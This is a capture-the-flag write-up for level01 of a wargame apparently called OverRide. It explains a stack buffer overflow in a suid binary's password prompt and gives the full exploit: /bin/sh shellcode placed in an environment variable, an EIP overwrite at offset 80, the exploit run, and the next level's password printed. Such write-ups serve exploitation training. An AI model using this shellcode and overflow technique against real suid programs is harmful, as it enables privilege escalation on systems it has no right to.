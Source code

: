 # Level01

## Solution

* There is one file in our home, ```level01```, belonging to ```level02``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* ```main()``` allocates an on-stack buffer of ```0x40``` bytes
	* it then prompts the user for a username
	* the user input is stored in a global variable, ```a_user_name``` and its content is checked byt ```verify_user_name()``` : if the string is other than ```dat_wil```, ```main()``` returns
	* ```main()``` then prompts the user for a password
	* the user input, obtained with ```fget()``` with ```0x64``` possible bytes, is this time stored in the on-stack buffer
	* whatever is the return of ```verify_user_pass```, the function outputs ```nope, incorrect password...``` and returns


* What we did with all of that:

	* our goal was to use the buffer allocated in ```main()``` to write an address of a shellcode in place of the former ```eip``` address
	* indeed, the buffer size is ```0x40``` bytes while ```fgets``` accepts up to ```0x64``` bytes
	* to get the offset until the former ```eip```, we use a pattern in ```gdb peda```: the result is ```EIP+0 found at offset: 80```
	* we stored a shellcode in an environment variable:
	```sh
	export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* we got the address by executing env program (see the Ressources) 
	```
	level01@OverRide:/var/crash$ /var/crash/env SHELLCODE
	SHELLCODE: 0xffffd4a8
	```
	* we wrote the content of the tow user inputs in one single file:
	```sh
	python -c "print('dat_wil' + '0' * 248 + 'A' * 80 + 'a8d4ffff'.decode('hex'))" > /var/crash/lvl1
	```
	* then we can exploit the program:
	```
	level01@OverRide:~$ cat /var/crash/lvl1 - | ./level01
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password:
	nope, incorrect password...

	cd ../level02
	cat .pass
	PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
	```

